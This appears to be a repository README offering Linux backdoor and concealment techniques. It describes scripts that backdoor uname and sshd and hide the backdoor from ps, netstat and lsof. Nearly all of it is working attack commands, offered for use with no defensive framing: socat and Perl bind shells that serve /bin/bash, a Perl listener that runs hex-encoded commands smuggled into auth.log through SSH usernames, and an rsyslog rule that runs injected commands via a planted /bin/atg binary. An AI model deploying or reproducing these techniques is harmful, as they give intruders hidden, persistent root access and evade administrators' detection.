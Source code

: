# backdoors
Simple linux backdoors and hiding techniques

## bd_uname.sh
Uncomment the preferred backdoor

Run the script as root to backdoor the **uname** command

Connect to the backdoor depending on the choice

```bash
socat STDIO TCP4:IP:4444
  or
socat STDIO TCP4:IP:3177
  or
socat STDIO SCTP:IP:1177
  or
socat STDIO TCP4:IP:1337
```

## bd_hide.sh
Run the script to protect the backdoor from discovery through **ps**, **netstat** or **lsof**

## bd_sshd.sh
Run the script to backdoor the **sshd** server

Connect to the backdoor by running

```bash
socat STDIO TCP4:<target ip>:22,sourceport=19526
```

## bd_uname_c.sh
Same as **bd_uname.sh** but creates a backdoored binary instead of a shell script

## bd_hide_c.sh
Same as **bd_hide.sh** but creates backdoored binaries instead of shell scripts

# Backdoor Techniques

## SOCAT TCP
LISTEN: 
```bash
socat TCP4-Listen:3177,fork EXEC:/bin/bash &
```

CONNECT: 
```bash
socat STDIO TCP4:IP:3177
```

## SOCAT SCTP
LISTEN: 
```bash
socat SCTP-Listen:1177,fork EXEC:/bin/bash &
```

CONNECT: 
```bash
socat STDIO SCTP:IP:1177
```

## PERL TCP
LISTEN: 
```bash
perl -MIO -e'$s=new IO::Socket::INET(LocalPort=>1337,Listen=>1);while($c=$s->accept()){$_=<$c>;print $c `$_`;}' &
```

CONNECT: 
```bash
socat STDIO TCP4:IP:1337
```

## AUTH.LOG
LISTEN: 
```bash
perl -e'while(1){sleep(1);while(<>){system pack("H*",$1)if/LEGO(\w+)/}}'</var/log/auth.log & 
```

EXECUTE REMOTE COMMAND:
```bash
perl -e 'print "LEGO".unpack("H*","id > /tmp/auth.owned")."\n"'
LEGO6964203e202f746d702f617574682e6f776e6564
ssh LEGO6964203e202f746d702f617574682e6f776e6564@<target_ip>
```

## RSYSLOG
LISTEN:
```bash
man -a rsyslogd syslog|perl -pe'print "auth.* ^/bin/atg "if$.==177;print"#"' > /etc/rsyslog.d/README.conf
echo -e '#!/bin/sh\nsh -c "$1"'>/bin/atg
chmod 755 /bin/atg
/etc/init.d/rsyslog restart
```

EXECUTE: 
```bash
echo "';whoami>/tmp/rsyslogd.owned;'"| socat STDIO TCP4:<target ip>:22
```
